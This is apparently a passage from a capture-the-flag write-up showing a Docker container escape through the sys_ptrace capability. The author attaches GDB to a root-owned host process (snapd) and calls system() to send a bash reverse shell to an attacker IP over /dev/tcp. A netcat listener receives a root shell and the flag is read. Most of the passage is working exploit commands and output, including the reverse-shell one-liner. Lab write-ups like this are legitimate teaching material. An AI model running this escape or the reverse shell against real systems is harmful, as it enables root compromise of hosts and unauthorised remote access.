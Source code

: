 ```
groups=0(root)
Guessed mode: UNCERTAIN (0)
```
The **sys_ptrace** capability allows a process within the container to trace and debug other processes on the host system, including attaching a debugger like GDB to host processes.

The **sys_admin** capability provides broader system administration privileges, which can include manipulating namespaces and certain aspects of the container runtime environment.

After this, while enumerating processes, choose one whose owner is root(for example: /usr/lib/snapd/snapd) and attach it to GDB (GNU Debugger)

```
root@bytescribe-virtual-machine:~# ps aux | grep /usr/lib/snapd/snapd
root         685  0.0  0.7 1245392 30536 ?       Ssl  Oct05   0:01 /usr/lib/snapd/snapd
root       15568  0.0  0.0   4028  2048 pts/1    S+   01:25   0:00 grep --color=auto /usr/lib/snapd/snapd
root@bytescribe-virtual-machine:~# gdb -p 685
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
Attaching to process 685
[New LWP 921]
[New LWP 925]
[New LWP 926]
[New LWP 1129]
[New LWP 1135]
[New LWP 1136]
[New LWP 1241]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
0x000056123e1a89a3 in ?? ()
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.163.133/1234 0>&1'")
[Detaching after vfork from child process 15575]
```
And it spawns shell on our listener
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.163.133] from (UNKNOWN) [192.168.163.135] 40094
bash: cannot set terminal process group (685): Inappropriate ioctl for device
bash: no job control in this shell
root@bytescribe-virtual-machine:/# cd /root
cd /root
root@bytescribe-virtual-machine:/root# ls
ls
docker
root.txt
snap
root@bytescribe-virtual-machine:/root# cat root.txt
cat root.txt
ICSD{065a70cc86657f8ea41a2f349901c985}
```